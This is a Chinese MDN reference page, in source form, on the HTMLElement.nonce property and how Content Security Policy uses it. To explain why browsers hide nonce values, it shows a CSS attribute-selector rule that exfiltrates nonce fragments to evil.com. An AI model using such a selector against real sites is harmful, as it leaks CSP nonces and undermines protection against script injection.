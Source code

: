 ```yaml
---
title: HTMLElement.nonce
slug: Web/API/HTMLElement/nonce
---
```


{{SeeCompatTable}}{{APIRef("HTML DOM")}}

{{domxref("HTMLElement")}} 接口的 **`nonce`** 属性返回只使用一次的加密数字，被内容安全政策用来决定这次请求是否被允许处理。

在接下来的实现中，有 nonce 属性的元素只能在脚本中使用（不可以在其他渠道使用，比如 css 属性选择器）。

## 语法

```plain
var nonce = HTMLElement.nonce
HTMLElement.nonce = nonce
```

### 访问 nonce 属性值

以前，并不是所有的浏览器都支持 `nonce` IDL 属性，因此在实际应用场景中，尝试使用 [`getAttribute`](/zh-CN/docs/Web/API/Element/getAttribute) 作为备选：

```plain
let nonce = script['nonce'] || script.getAttribute('nonce');
```

然而，最新的浏览器版本都隐藏了 `nonce` 值（返回一个空值）。IDL 属 (`script['nonce']`) 成为唯一的访问方式。

隐藏 Nonce 是为了阻止攻击者通过某种机制提取出 nonce 值，比如下面这种方式：

```plain
script[nonce~=whatever] {
  background: url("https://evil.com/nonce?whatever");
}
```

## 规范

{{Specifications}}

## 支持的浏览器

{{Compat}}
